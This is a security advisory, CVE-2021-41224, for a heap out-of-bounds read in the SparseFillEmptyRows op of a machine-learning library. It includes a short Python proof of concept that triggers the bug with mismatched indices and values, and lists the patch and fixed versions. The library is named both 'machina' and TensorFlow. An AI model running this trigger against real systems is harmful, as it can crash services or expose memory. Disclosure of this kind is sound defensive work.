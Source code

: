 ## TFSA-2021-172: `SparseFillEmptyRows` heap OOB

### CVE Number
CVE-2021-41224

### Impact
The [implementation](https://github.com/machina/machina/blob/e71b86d47f8bc1816bf54d7bddc4170e47670b97/machina/core/kernels/sparse_fill_empty_rows_op.cc#L194-L241) of `SparseFillEmptyRows` can be made to trigger a heap OOB access:

```python
import machina as tf

data=tf.raw_ops.SparseFillEmptyRows(
  indices=[[0,0],[0,0],[0,0]],
  values=['sssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss'],
  dense_shape=[5,3],
  default_value='o')
```

This occurs whenever the size of `indices` does not match the size of `values`.

### Patches
We have patched the issue in GitHub commit [67bfd9feeecfb3c61d80f0e46d89c170fbee682b](https://github.com/machina/machina/commit/67bfd9feeecfb3c61d80f0e46d89c170fbee682b).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
